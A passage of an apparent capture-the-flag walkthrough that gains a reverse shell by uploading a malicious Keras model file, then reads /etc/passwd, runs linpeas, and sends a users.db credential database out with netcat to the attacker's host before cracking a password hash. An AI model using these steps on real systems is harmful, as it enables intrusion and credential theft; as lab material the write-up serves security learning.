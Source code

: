 ```python
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
- The code above is used to generate a malicious model called exploit.h5. Don't forget to modify your host IP, and port.
- I used uv with Cpython 3.8 venv to install tensorflow and run the code to generate `exploit.h5`. 
## Exploitation
### Reverse Shell
- Then go back to the website, and uploading our malicious model `exploit.h5`, 
![alt text](/imagesMD/artificial3.png)
- As you can see, we are able to successfully upload our malicious model. So next is setup the listener on our host.
```
ncat -lvnp 4444
```
- Then click on View Predictions on the website.
![alt text](/imagesMD/artificial4.png)
- Gyah, we got in the web server. 
- After we got in the server what i will do first is to see what is our current user. So we are app user.
- View /etc/passwd file if there is any other users.
![alt text](/imagesMD/artificial5.png)
### Linpeas
- Beside user app there is another username "gael". We need to move to gael in order to get the user flag. So i tried to run linpeas to find interesting files or misconfiguration.
![alt text](/imagesMD/artificial6.png)
- I'm hosting a simple HTTP server on our host to transfer the linpeas.sh to the target machine. and start execute linpeas.
- On target machine:
```bash
chmod +x linpeas.sh # add execute permission to linpeas.sh
./linpeas.sh # execute the script
```
- The result of Linpeas doesn't have any misconfiguration, instead i found a sqlite file called users.db in the instance directory under app directory which is the website itself. 
![alt text](/imagesMD/artificial7.png)
- Lets transfer it from target machine to our host. I used netcat again for the transferring.
- On our machine:
```bash
ncat -lvnp 4445 > users.db
```
- On target machine:
- make sure you are in /instance directory.
```bash
nc 10.10.xx.xx 4445 < users.db
```
![alt text](/imagesMD/artificial8.png)
- Once we execute it on target machine, it appears like this you can Control+C to cancel and you will see users.db on your host.
![alt text](/imagesMD/artificial9.png)
- We found password hash of user gael which is existed on the target machine. and i know it is a MD5 hash, since i view the source code of app.py.
- Now lets copy and crack the MD5 hash.
- I used hashcat to crack with rockyou.txt wordlist. and we get gael's password. Now lets SSH to the target as gael since we know that the server also has port 22 opened.
```bash
```